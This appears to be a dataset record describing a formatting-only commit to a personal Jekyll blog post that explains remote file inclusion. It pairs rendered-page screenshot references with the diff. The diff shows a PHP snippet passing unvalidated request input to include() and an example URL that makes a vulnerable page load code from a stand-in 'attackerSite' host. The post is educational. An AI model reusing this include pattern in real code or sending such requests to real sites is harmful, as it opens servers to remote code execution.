

Before and after one commit to shivaGprasadh/shivaGprasadh.github.io, a Jekyll site: the page built from _posts/2020-02-09-file-inclusion.md, in a window 1280 px wide and 900 px high, scrolled down 727 px. Shown: the top 897 px of the window, without its empty margins (135-852 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded; before the commit the page ends 1599 px from its top, so only the background shows below that.

Commit message:
Update 2020-02-09-file-inclusion.md

````diff
--- a/_posts/2020-02-09-file-inclusion.md
+++ b/_posts/2020-02-09-file-inclusion.md
@@ -44,6 +44,6 @@ Since RFI occurs when paths passed to "include" statements are not properly sani
 ```
 $incfile = $_REQUEST["file"];
 include($incfile.".php");
+```
 In this example the path is extracted from the HTTP request and no input validation is done.
-http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL
-```
+```http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL```
````
